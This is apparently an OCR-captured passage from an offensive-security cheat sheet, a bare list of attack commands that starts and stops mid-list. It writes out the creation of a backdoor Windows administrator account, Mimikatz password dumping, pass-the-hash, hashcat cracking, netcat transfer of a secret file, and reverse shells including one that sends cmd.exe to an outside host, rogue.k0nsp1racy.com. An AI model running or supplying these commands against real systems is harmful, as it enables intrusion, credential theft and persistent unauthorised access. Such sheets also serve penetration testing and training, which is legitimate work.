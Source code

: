 run vnc -p 5043

**Add User Windows:**

net user test 1234 /add

net localgroup administrators test /add

**Mimikatz:**

privilege::debug

sekurlsa::logonPasswords full

Passing the Hash:

pth-winexe -U hash //IP cmd

Password Cracking using Hashcat:

hashcat -m 400 -a 0 hash /root/rockyou.txt

**Netcat commands:**

c:&gt; nc -l -p 31337

\#nc 192.168.0.10 31337

c:&gt; nc -v -w 30 -p 31337 -l &lt; secret.txt

\#nc -v -w 2 192.168.0.10 31337 &gt; secret.txt

**Banner Grabbing:**

nc 192.168.0.10 80

GET / HTTP/1.1

Host: 192.168.0.10

User-Agent: SPOOFED-BROWSER

Referrer: K0NSP1RACY.COM

&lt;enter&gt;

&lt;enter&gt;

**window reverse shell:**

c:&gt;nc -Lp 31337 -vv -e cmd.exe

nc 192.168.0.10 31337

c:&gt;nc rogue.k0nsp1racy.com 80 -e cmd.exe

nc -lp 80

\#nc -lp 31337 -e /bin/bash

nc 192.168.0.11 31337

nc -vv -r\(random\) -w\(wait\) 1 192.168.0.10 -z\(i/o error\) 1-1000

**Find all SUID root files:**
